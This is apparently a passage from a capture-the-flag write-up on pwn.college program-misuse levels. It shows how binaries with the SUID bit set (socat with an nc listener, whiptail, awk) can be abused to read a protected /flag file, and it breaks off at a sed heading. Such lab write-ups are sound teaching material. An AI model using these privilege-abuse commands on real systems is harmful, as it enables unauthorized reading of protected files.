 > I just set the SUID bit on /usr/bin/socat.\
> Try to use it to read the flag!

The `socat` utility establishes two bidirectional byte streams and transfers data between them.

Let us set up a `nc` listener on port 80.

```
hacker@program-misuse~level32:/$ nc -nlvp 80
Listening on 0.0.0.0 80
```

Now, using `socat`, we can send the contents of `/flag` over port 80.

```
hacker@program-misuse~level32:/$ socat -u file:/flag tcp-connect:localhost:80
```

If we check back on our listener, we should have flag.

&nbsp;

## whiptail

> I just set the SUID bit on /usr/bin/whiptail.\
> Try to use it to read the flag!

The `whiptail` utility allows us to present a variety of questions or display messages using dialog boxes from a shell script.

```
hacker@program-misuse~level33:/$ whiptail --textbox --scrolltext "$LFILE" 10 50
```

![Pasted image 20240521173223](https://github.com/Kunull/Write-ups/assets/110326359/cde0c0e1-ab97-478a-97df-97377db0d0dd)

&nbsp;

## awk

> I just set the SUID bit on /usr/bin/awk.\
> Try to use it to read the flag!

The AWK language is useful for manipulation of data files, text retrieval and processing, and for prototyping and experimenting with algorithms.

We can use this language to read the `/flag` file and print the content to the STDOUT.

```
hacker@program-misuse~level34:/$ awk '{print $0}' /flag
```

&nbsp;

## sed

> I just set the SUID bit on /usr/bin/sed.\
> Try to use it to read the flag!
